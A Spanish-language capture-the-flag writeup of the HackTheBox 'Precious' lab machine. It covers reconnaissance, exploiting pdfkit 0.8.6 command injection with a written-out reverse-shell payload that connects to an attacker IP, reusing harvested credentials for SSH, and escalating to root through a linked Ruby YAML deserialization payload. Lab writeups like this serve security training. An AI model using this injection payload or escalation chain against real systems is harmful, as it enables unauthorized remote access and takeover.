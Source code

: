 # Primeros pasos

En este artículo voy a subir mi writeup vulnerando la máquina Precious del sitio web HackTheBox. Voy a ir paso a paso explicando poco a poco los pasos que voy realizando. He estado entrando e investigando y después de un par de días intentandolo resolver por mi mismo, traigo esta writeup para poder coger la flag, o bandera y así completar esta máquina. 

# Materiales

En esta máquina recomiendo tener un sistema operativo Linux, conectarnos a la VPN de HTB y tener nociones sobre herramientas básicas de pentesting.

# Resolución Máquina Precious

- Cuando hayamos accedido a la VPN, haremos ping para ver si llegamos a la máquina con una traza ICMP

<img src="/assets/cybersecurity/writeups/Precious/1.png"/>

- Ahora que vemos que tenemos conexión, vamos a realizar un escaneo de los puertos de la máquina con Nmap (puedes encontrar un tutorial sobre esta herramienta en mi blog). Cómo podemos comprobar, tenemos abiertos los puertos 22/tcp y 80/tcp. El 22/tcp corresponde al servicio ssh y al 80/tcp pertenece al servicio http.

<img src="/assets/cybersecurity/writeups/Precious/2.png"/>

- Voy a editar el archivo /etc/hosts y añadir la siguiente información

<img src="/assets/cybersecurity/writeups/Precious/3.png"/>

- Y usaré el comando curl con la dirección http://precious.htb

<img src="/assets/cybersecurity/writeups/Precious/4.png"/>

- Ahora, si abrimos nuestro navegador de confianza, podremos ver la siguiente página web, un convertidor de web a pdf

<img src="/assets/cybersecurity/writeups/Precious/5.png"/>

- Ahora necesitaremos crear un servidor con python para ver si podemos realizar algunas peticiones. Tranquil@, no necesitas saber este lenguaje para este ejercicio, ya que es un comando muy sencillo

<img src="/assets/cybersecurity/writeups/Precious/6.png"/>

- Ahora, nos metemos en la web y en el buscador vamos a apuntar a nuestro servidor http que hemos creado de la siguiente manera, usando la ip que nos ha asignado la vpn

<img src="/assets/cybersecurity/writeups/Precious/7.png"/>

- Cómo podemos ver, nos llega una petición a nuestro servicio http, además nos descarga un documento pdf

<img src="/assets/cybersecurity/writeups/Precious/8.png"/>

- A continuación necesitaremos una herramienta llamada exiftool que nos dará información avanzada sobre un archivo pdf, lo usaremos para ver esa información del archivo pdf descargado. La instalaremos fácilmente de la siguiente manera

<img src="/assets/cybersecurity/writeups/Precious/9.png"/>

- Vamos a cambiar el nombre del archivo y le pondremos precious.pdf, y vamos a analizarlo

<img src="/assets/cybersecurity/writeups/Precious/10.png"/>


- Oh vaya, ha sido genereado con pdfkit v0.8.6. Es hora de llegar a la parte divertida, crear una reverse shell. Voy a crear una injección, en este artículo puedes encontrar este payload de la página [Snyk vulnerability DB](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). Con él vamos a realizar un exploit muy sencillo usando el convertidor que tiene la página http precious de la siguiente manera. Primero vamos a escuchar por netcat por el puerto 443:

<img src="/assets/cybersecurity/writeups/Precious/11.png"/>

- A continuación, añadimos el siguiente comando

```
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/"TuIP"/443 0>&1"`'}
```
<img src="/assets/cybersecurity/writeups/Precious/12.png"/>

- Cómo podemos observar, ya tenemos completo acceso a la máquina

<img src="/assets/cybersecurity/writeups/Precious/13.png"/>

- He navegado por los directorios, y específiamente en ~/.bundle tenemos información relevante sobre un usuario llamado henry. ¿Qué puertos tenemos abiertos en esta máquina además del servicio HTTP? correcto, el servicio SSH. Vamos a probar acceso al usuario henry por ssh haber si tenemos acceso con las credenciales obtenidas

<img src="/assets/cybersecurity/writeups/Precious/14.png"/>

Voy a iniciar sesión con el usuario henry, cómo podemos ver, usamos las credenciales y conseguimos acceso total al usuario

<img src="/assets/cybersecurity/writeups/Precious/15.png"/>

- Ya tenemos acceso a la máquina con el usuario henry y con esto ya tenemos la primera flag, la obtendremos de la siguiente manera

<img src="/assets/cybersecurity/writeups/Precious/16.png"/>

- Apuntamos esta flag en un archivo txt para más adelante agregarla en HTB y así obtener la flag del usuario. Continuamos mirando los permisos de sudoers, en él podemos ver que podemos ejecutar un archivo de ruby como root. Si leemos el archivo podemos comprobar que en una parte intenta cargar a dependencies.yml Podrás comprobar lo mencionado en la siguiente captura

<img src="/assets/cybersecurity/writeups/Precious/17.png"/>

- Con el siguiente payload vamos a ejecutar un comando para realizar la bash suid (son permisos de acceso que pueden asignarse a archivos o directorios en un sistema operativo basado en Unix. Se suele utilizar para permitir a los usuarios del sistema ejecutar binarios con privilegios elevados temporalmente para realizar una tarea en específico.) [Pincha aquí para obtener el payload](https://gist.githubusercontent.com/staaldraad/89dffe369e1454eedd3306edc8a7e565/raw/4b85e6fe8f5708f0a7ba87dbecb6954f8f380bee/ruby_yaml_load_sploit2.yaml). Yo lo he copiado y pegado en un archivo que me he hecho en el escritorio, además cambiaremos el git_set, cómo podemos ver en la captura: 

<img src="/assets/cybersecurity/writeups/Precious/18.png"/>

- Ahora introducimos el siguiente comando

<img src="/assets/cybersecurity/writeups/Precious/20.png"/>

- Introducimos el último comando y cómo podemos comprobar, ya tenemos acceso a root

<img src="/assets/cybersecurity/writeups/Precious/21.png"/>

- Ejecutamos los siguientes comandos y terminamos la recopilar las flags

<img src="/assets/cybersecurity/writeups/Precious/22.png"/>

- Cómo podemos ver, ya tenemos la máquina totalmente pwneada

<img src="/assets/cybersecurity/writeups/Precious/23.png"/>



































